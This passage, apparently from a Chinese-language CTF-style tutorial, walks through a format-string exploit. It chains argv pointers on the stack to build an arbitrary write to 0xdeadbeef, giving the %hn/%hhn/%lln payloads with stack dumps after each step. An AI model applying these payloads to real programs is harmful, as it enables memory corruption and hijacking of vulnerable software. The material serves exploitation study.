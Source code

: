 可以透過寫入 argv1 來改動 argv2 寫的內容 (address)，最後再透過寫入 argv2 來寫入指定的位址

以下範例，假設要在 `0xdeadbeef` 寫入 `0x4`

#### 第一步：透過 argv1 寫 2 bytes

一開始先在 argv2 的值寫上 `0xbeef` ，payload 如下

```
%48879c%43$hn
```

寫完後如下

```bash
                                                                             +----+
0088| 0x7fffffffe878 --> 0x7fffffffe948 --> 0x7fffffffeb80 --> 0x72662f656d6f|beef|
                                                                             +----+
```

#### 第二步：透過 argv0 移動 2

把 argv2 移動 2，payload 如下

```
%2c%17$hhn
```

寫完後如下，argv2 從 `0x7fffffffeb80` 變成 `0x7fffffffeb82`

```bash
0088| 0x7fffffffe878 --> 0x7fffffffe948 --> 0x7fffffffeb82 --> 0x7a6f72662f656d6f
```

#### 第三步：透過 argv1 寫 2 bytes

原本只能寫上 `0xbeef` ，後面的部分透過第二步移動 argv2 以後就可以用 `%hn` 碰到了

因為剩下只要寫掉 `0xdead` 就好，所以我這邊直接使用 `%lln` 把後面都用 0 蓋掉

```
%57005c%43$lln
```

寫完後如下

```bash
                                                               +------+
0088| 0x7fffffffe878 --> 0x7fffffffe948 --> 0x7fffffffeb82 --> |0xdead|
                                                               +------+
```

#### 第四步：透過 argv0 移動回來

把 argv2 移動回來，payload 如下

```
%17$hhn
```

寫完後如下，分兩段寫後就可以把整個 `0xdeadbeef` 寫上去了
